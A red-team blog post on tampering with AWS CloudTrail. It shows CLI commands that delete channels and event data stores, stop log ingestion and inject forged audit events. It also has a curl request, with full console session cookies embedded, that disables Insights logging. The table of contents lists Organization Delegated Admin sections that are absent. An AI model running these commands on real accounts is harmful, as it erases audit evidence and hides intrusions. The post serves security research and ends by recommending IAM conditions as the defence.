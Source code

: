 ```yaml
---
published: true
title: Attacking AWS Cloudtrail 101
date: 2023-11-24 07:40:00 +0200
categories: [Research]
tags: Cloud
---
```


# Attacking AWS Cloudtrail 101

# Introduction

I was inspired by @(https://twitter.com/Frichette_n)https://twitter.com/Frichette_n research about Cloudtrail bypasses and I didn’t find any material or talks discussing how we can attack Cloudtrail. 

I presented this research @[BsidesABQ](https://twitter.com/BSides_ABQ)

Since logging is one of our enemies in red team operations, I decided to do my research on how to attack Cloudtrail from Adversary perspective. 

# Table of content

1. Service-link Channels
    1. Deleting Channels 
    2. Log pensioning 
2. Event data stores
    1. Deleting stored data 
    2. Stop data logging 
3. Insights events
    1. Disabling Insights events 
4. Organization Delegated Admin
    1. DeRegister organization admin 
    2. Register organization admin 

# What is Cloudtrail?

AWS CloudTrail is an AWS service that helps you enable operational and risk auditing, governance, and compliance of your AWS account. Actions taken by a user, role, or an AWS service are recorded as events in CloudTrail.

# Service-link Channels

## Enumeration :

- aws cloudtrail list-channels --profile Cloudtrail

<img src="https://i.ibb.co/6Dfx001/1.png" alt="1" border="0">

## Abuse 1.1 :

Delete-channel permission  

- aws cloudtrail delete-channel --channel arn:aws:cloudtrail:eu-north-1:036528129738:channel/3d5f7c83-5146-4ea5-8e62-7250313f9e26 --profile Cloudtrail

> This permission won’t work if you have EC2 machine, you need to use your own server.
> 

<img src="https://i.ibb.co/q9fR4KD/2.png" alt="2" border="0">

## Abuse 1.2 :

Put-audit-events permission 

- aws cloudtrail-data put-audit-events --channel-arn $CHANNEL_ARN --region "us-east-1" --audit-events <data> --profile cloudtrail

> It always breaks when I use JSON directly into the command so I used bash
> 

<img src="https://i.ibb.co/FWbvtvz/3.png" alt="3" border="0">

<img src="https://i.ibb.co/Y0H1sQB/4.png" alt="4" border="0">

---

# Event data store

## Enumeration :

- aws cloudtrail list-event-data-stores --profile Cloudtrail

<img src="https://i.ibb.co/fXFKgHc/5.png" alt="5" border="0">

## Abuse 1.1 :

Delete-event-data-store permission

- aws cloudtrail delete-event-data-store --event-data-store arn:aws:cloudtrail:eu-north-1:036528129738:eventdatastore/ed8053cc-2fa5-4313-a774-f901a4c850c1 --profile Cloudtrail

<img src="https://i.ibb.co/3RNBfCT/6.png" alt="6" border="0">

## Abuse 1.2 :

stop-event-data-store-ingestion permission

- aws cloudtrail stop-event-data-store-ingestion --event-data-store arn:aws:cloudtrail:eu-north-1:036528129738:eventdatastore/ed8053cc-2fa5-4313-a774-f901a4c850c1 --profile Cloudtrail

<img src="https://i.ibb.co/GMYsbRM/7.png" alt="7" border="0">

---

# Insights events :

## Enumeration :

- aws cloudtrail get-insight-selectors --trail-name management-events --profile Cloudtrail

<img src="https://i.ibb.co/W53NzZ5/8.png" alt="8" border="0">

## Abuse :

Put-Insight-selector permission

> By using this you are disabling the insights events.
> 
1. Enable intercept in Burpsuite

<img src="https://i.ibb.co/jV9WT5P/9.png" alt="9" border="0">

2. This request can be done with the CLi all you need is the cookies.

<img src="https://i.ibb.co/S0M5BmT/10.png" alt="10" border="0">

```bash
curl -i -s -k -X $'PUT' \
    -H $'Host: eu-north-1.console.aws.amazon.com' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: application/json' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: https://eu-north-1.console.aws.amazon.com/cloudtrail/home?region=eu-north-1' -H $'Content-Type: application/json' -H $'x-cloudtrail-xsrf-token: UkNZNHRuRmdvSkc1SFhYQTNTLVZOdTl2RkJsN2JkanNLQl9zZTVMQUIwWXwtNDAwNjEzMTg5ODI5Mzk5MzA4OXwxfDIwMjMtMTEtMjRUMTM6MTk6NDYuNzM3Wg==' -H $'Origin: https://eu-north-1.console.aws.amazon.com' -H $'Content-Length: 141' -H $'Connection: close' -H $'Sec-Fetch-Dest: empty' -H $'Sec-Fetch-Mode: cors' -H $'Sec-Fetch-Site: same-origin' -H $'Cache-Control: max-age=0' \
    -b $'aws-creds-code-verifier=mLrTV0kwR9xl3b0OUxQKI749k6drbT-eg7BDvSwFrMhbo5-X2; aws-consoleInfo=eyJ0eXAiOiJKV1MiLCJrZXlSZWdpb24iOiJldS1ub3J0aC0xIiwiYWxnIjoiRVMzODQiLCJraWQiOiI1N2QxOTI5MC05NzQxLTQzMDgtYWYxOC1hNzQyNmRmYjZhYzgifQ.eyJhdF9oYXNoIjoiMzFWN2FQd3FqVkx3VmNKM19RWkVHZTd5VnRhTkxaXzYiLCJpc3MiOiJodHRwOlwvXC9zaWduaW4uYXdzLmFtYXpvbi5jb21cL3NpZ25pbiIsInN1YiI6ImFybjphd3M6aWFtOjowMTU0Mjg1NDA2NTk6dXNlclwvY2xvdWR0cmFpbCJ9.GWtXx-axeyOkZsDKsRi62by09wVmJLH810Sq-51Y2eA3zv2P48n2NAn-SwaRNCEZhdcfQHrBlsRVvQajAQ6DZm7OLXhEdppCqbdm-md_Guh6nMjiyyht22x6in9CTdQU; aws-creds=eyJ2IjoyLCJlIjoiZ01QaHFTeFBXVVRJNnEwdzF5RVhya2dyeVJCYzFOQzdNcTZVcURpWHlpRFBm%0AbnFyTTdhdEFyRktqTERONld2QkZzZ0tBakZKMVMySCUwQVZ1UWtyMEhmbmVLaXBnQ2hHWGpjYWFl%0AVHRVejlUTmU0bHRFUjZHclFRaHBwU3JjOUo1bjFBMGtJOE56Z0tpNWtEbXElMkJtUkRXVCUyQnMx%0AJTBBQTFTQUZraFZOZlljV1V5eXRmZFI2bVhraU1WSDZ2Q25LR2ZkZDZxMGprJTJGajhQWmRsREpQ%0ARWhGZHFPbyUyQkJlTm5rdzdDT3dUcEI5WlQlMEE0cGRqT0NTQ2wlMkJJazNyM01ZR05oRFRGeE1V%0ATlZaWmVLVlNUYjZVMFJ6diUyQllKWjJKcXJ0V3Z0RkpkOVEwOVhoSTFMZU5laGtSOWsyMiUwQVQz%0ARVJOV1NuTUlJb1JlRjhzNkdzV1JIUUlHYSUyRm1MeGJRdWhrYkFPR0swdU1tNmxMRzBsRlNPcmJL%0AbHRZbXBIN1ZhRVhvNUlaOGtJVyUwQWdDcXZ4SWJ5YUZvWFhaJTJGaGhnUE9FSkhsbkphV09WQ0RI%0AanB5RzJRSkEwMWFGVFZLUHR1V1RBdCUyRmxrZ3clMkZIU0VudjYxNkFBVmRyNHUlMEFwS1NNdTdt%0AanlnTlJLYkY5Ujh3czV2U25RWW44VFVxNW5LWHN5dHFjeE5LcGx0dVhhJTJCQVV6SUVlMCUyQnhz%0AJTJCbEZOTEtYZ2lqS3lQcmtnJTBBOThJQ2JNdmxoMVVwM3YxbVJKUVo5eUhpSkl0eHRPQnZuZ21Q%0AWHRyMWxiYkVncDZuTnB3eE43Rjk1Z0ZtbzBmREtGZk0zQUMlMkJVVHNZJTBBaW9YWWpob1V5Zjk3%0ASWZOMFV5ViUyQjVpd0drbXZWb1BWeVR2SjZUWCUyRnpEWk1YU0NFbXdDODVxN0VkWGZIUG9vT2w3%0AUE9JUUdmYlRaa1ElMEFmUGNDMFVYSWdCVU1EM0NuZW1lRVJhbUhBalZXSVREVjlXd0hZNE1NQiUy%0ARk1NUlZhNUQ4djdUcFpNeGt2UjFObWY3JTJGS0glMkI5OXMweTVZJTBBazNZQjRxZmdCZVNRZG5Y%0AcENGa3VmWDhHVjQ3WiUyRjBRNzdqT2NqJTJGZiUyRjNnMDJTJTJCb1R0VDhVN3I2RSUyRjBmaFRT%0ATCUyQmNlSHg5aDZJNXElMkJzJTBBbHdLNk02ZTFNR0lPbVR2WmttJTJCa3g3MiUyQmZET0FYcTBx%0ARjEwc2pQeXNXcUppZmNBVXZXU0w0NzJjWHU2b29XSmJneHRxMktZdU8zZWolMEFZTiUyRkNadXpY%0ARGRGOVdrUXRTRER0VTdwcSUyQnNUSlhvZXd6UDZOR2NQSE9OQko2czZzbWJEVUdub2I5eHUlMkJp%0AYm1YdE5XREhLelNtYmFQJTBBek9FOFFoaDFJdTU4WXc3YlM0ZnQ2UElTQUFRUEhydU1LdXI2YzE3%0AY01TJTJGSTB1Nk9HQUkzTlhRM2VmMUc1bENCY2pZV09QUWZkd2JKJTBBRmxzTDkwNXdjaDFrYmJZ%0AbHJvSnA1dDdndUcxclExc2MxSHdnNVRMN0VXNk1PS2dGQ0dLMzdTS2dETzBuRGpGa0xnVzhvUVZ0%0AQ3dSQyUwQTlMRVVBS3MxTlNCaTlNZUR3M3lJTkxXMERPYkhZZDNocmhCTFgyR3RMQ0lqemNZWGN6%0AMWdLMTVid1U3UHVzdVZaTTNPWHZtZ255R1glMEE1WDhkM2w0N29xOWRUMFlRd2hCRGtEeFF4RWlK%0AV3lOaTJBNUJJaTBNVmsxeEpMeFJyOHhUSmNXYnRpNHRPNW9HQkhyQWJ1TVJjcGJGJTBBMXRPa2J2%0AV0JOMGlzWW1HR1VBNE9wQmFDUnBpblY1MzhaUW1qUU80SHdIUlEzJTJCVFByRGxPbG90SnFVaE5G%0AY2dJR1FPU2NWQm4xdsfgsdfgdsfgsdfgdGRIJTBBQ0J4RDhUT0ZRckIlMkZoalR4enhDRyUyQjZYZE9vU1V3VlYlMkZv%0Aem9MRTdBZlVCUUx0WElyazNKdWltMWpaYmUlMkJXZHFLdmRaJTJGNDY4TjFpREMlMEFzUDBISnd0%0AT2F6dmk4QlhkWW4xbHIzN1pOY0dZM3ZIRXBBMlRsV0hhNkVEUWNWanJaaXB3Um9GdUwlMkJOeUU0%0ANVY0eTFFVHpiN2lNWkIlMEFBMGVzOVdxNjZnSzdrcUFDcU9iOSUyRmk5WHElMkZtNTFFZ0lFaHU4%0AVDBlVFd2MUxIWnd2NDA0MHFnbzRUYTF4Z2lmUGlpTU1HSUlzZ2pZdyUwQTBBMkxQUG4lMkZ4VWt1%0Aa3J6UWYxVG41YW04VXpIVE9DOHExY0NyOE5ySFd3S0g1VW9pV2pKbU0yUDdwR1h4Q2F5WEpyQ29t%0AeGZqN2FzWiUwQW9ENFR2WlpWdE5KaVB3Z1V6aGpHN1o2M1NkZVNGSXlpaG5KbmZjUWd6N0wzbkQz%0AMzlxbVc0M2dKcXRkUWxIdGo0MTZyMkpncSIsImEiOjEsImsiOjU0fQ%3D%3D; JSESSIONID=15A621603EB7FCA92753D57BCFCB5A08; aws-ubid-main=611-7283050-5123120; aws-vid=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJwaWQiOiI2Y2NmYTJkNy0zNTg5LTRhNTYtOWZmYy1lYmEzOThhNzZhNGYiLCJ1YXQiOjE3MDA4MzE3MTcyNzEsImV4cCI6MTczMjM2NzcxNzI3MSwicHZkIjoiYXdzLmFtYXpvbi5jb20ifQ.aRXljW_PBiRDswnsnoguweZpXOuJpLbbGRgZ1mbnYOc; remember-account=false; aws-account-alias=036528129738; aws-account-data=%7B%22marketplaceGroup%22%3A%22AWS%22%7D; aws-userInfo=%7B%22arn%22%3A%22arn%3Aaws%3Aiam%3A%3A036528129738%3Auser%2FtestaccountBudget%22%2C%22alias%22%3A%22036528129738%22%2C%22username%22%3A%22testaccountBudget%22%2C%22keybase%22%3A%22BusFwa7ORKTMx8q4jxMcO%2FXT%2BxohCbdpsGyvdSG7mPo%5Cu003d%22%2C%22issuer%22%3A%22http%3A%2F%2Fsignin.aws.amazon.com%2Fsignin%22%2C%22signinType%22%3A%22PUBLIC%22%7D; aws-userInfo-signed=eyJ0eXAiOiJKV1MiLCJrZXlSZWdpb24iOiJ1cy1lYXN0LTEiLCJhbGciOiJFUzM4NCIsImtpZCI6ImViYjdjODY1LTY3NGEtNDNjZi1hYzY2LTUxNGQ1YjQxNjlhYiJ9.eyJzdWIiOiIwMzY1MjgxMjk3MzgiLCJzaWduaW5UeXBlIjoiUFVCTElDIiwiaXNzIjoiaHR0cDpcL1wvc2lnbmluLmF3cy5hbWF6b24uY29tXC9zaWduaW4iLCJrZXliYXNlIjoiQnVzRndhN09SS1RNeDhxNGp4TWNPXC9YVCt4b2hDYmRwc0d5dmRTRzdtUG89IiwiYXJuIjoiYXJuOmF3czppYW06OjAzNjUyODEyOTczODp1c2VyXC90ZXN0YWNjb3VudEJ1ZGdldCIsInVzZXJuYW1lIjoidGVzdGFjY291bnRCdWRnZXQifQ.oQm0YxRL52ZYNmAZAe5l3JZ2X0hVsDlEeEsmoU2pldiWE1Mf5K3jBGbllNzsdfgdfsgasdfasdfasdhsdafhcSWR_EVPz8qHWj0sllbEamEg8pc46Bkn8ngVf9nrjW-S96JmOe96Zh9GTQtPq1QYP7bIL; regStatus=registered; seance=%7B%22accountId%22%3A%22036528129738%22%2C%22iam%22%3Atrue%2C%22services%22%3A%5B%22AWSCloudTrail%22%2C%22cloudtrail%22%5D%2C%22status%22%3A%22ACTIVE%22%2C%22exp%22%3A0%7D; awsc-color-theme=light; awsc-uh-opt-in=\"\"; noflush_awsccs_sid=e9aa0dda937be820c48f7ae5bd25e545a3283fec2017f79a7dd7bcdbe0ef9b77; cloudtrail-session-id=Bzyht0Qcyfak6VcugHAl12BN77W7CsXUhW6h8o58Khw; awsccc=eyJlIjoxLCJwIjoxLCJmIjoxLCJhIjoxLCJpIjoiMTJjZDQxMDktYjI5OC00NzgxLThjYTktOTNiZTQxMTE2NDgyIiwidiI6IjEifQ==; aws-signer-token_eu-north-1=eyJrZXlWZXJzaW9uIjoiY3ZSblRkWDUxR0ZxeDdNTkNENG9rbnVaT3FwdDBEQmgiLCJ2YWx1ZSI6ImdFemt2Sy9BN01zZTN4cXlUdGZNWDF6UkFSNlY5WlZoOUtZOUhRYTd4MWc9IiwidmVyc2lvbiI6MX0=; noflush_awscnm=%7B%22hist%22%3A%5B%22ctr%22%2C%22home%22%5D%2C%22sc%22%3A%5B%5D%2C%22tm%22%3A%22tm-both%22%2C%22ea%22%3Atrue%2C%22consoleFlags%22%3A%5B%22F%22%2C%22G%22%2C%22J%22%2C%22H%22%2C%22L%22%5D%7D; noflush_Region=eu-north-1; last-sign-in-session=e9aadda937be820c48f7ae5bd25e545a3283fec2017f79a7dd7bcdbe0ef9b77; toolsExperience={}; awsc-rac=BAH30|CGK33|CPT33|DXB33|HKG33|HYD33|MEL33|MXP30|TLV30|ZAZ30|ZRH30@1700831742609; noflush_awsc_cct_config_version=6CMfVeLSUFu_q_sUXRTc_ZaZy4fH5pf8sRxOAQt_JAc' \
    --data-binary $'{\"trailArn\":\"arn:aws:cloudtrail:eu-north-1:036528129738:trail/management-events\",\"trailHomeRegion\":\"eu-north-1\",\"trailInsightSelectors\":\"[]\"}\x0d\x0a\x0d\x0a\x0d\x0a' \
    $'https://eu-north-1.console.aws.amazon.com/cloudtrail/service/putInsightSelectors?region=eu-north-1
```

---

## Conclusion

Most of AWS permission can be weaponized if the attacker understood how it works, if you used condition statements you will prevent anyone from using what I call dangerous permissions [ Deleting, editing ….etc. ], even if there misconfiguration only the principal you are allowing will be able to use it.
